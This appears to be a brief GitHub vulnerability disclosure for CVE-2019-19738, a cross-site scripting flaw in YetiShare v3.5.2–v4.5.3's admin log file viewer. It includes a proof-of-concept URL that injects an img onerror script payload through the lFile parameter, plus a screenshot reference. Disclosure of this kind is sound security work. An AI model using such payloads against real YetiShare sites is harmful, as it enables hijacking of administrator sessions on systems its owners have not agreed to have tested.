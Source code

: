 # CVE-2019-19738
YetiShare v3.5.2 - v4.5.3 Cross-site scripting in log_file_viewer.php

# Example
```
http://192.168.0.62/admin/log_file_viewer.php?lType=system&lFile=20%3Cimg%20src=x%20onerror=alert(1)%3E191207.txt
```

</br></br>
<kbd>
  <img src="/yetishare-xss1.png?raw=true">
</kbd>

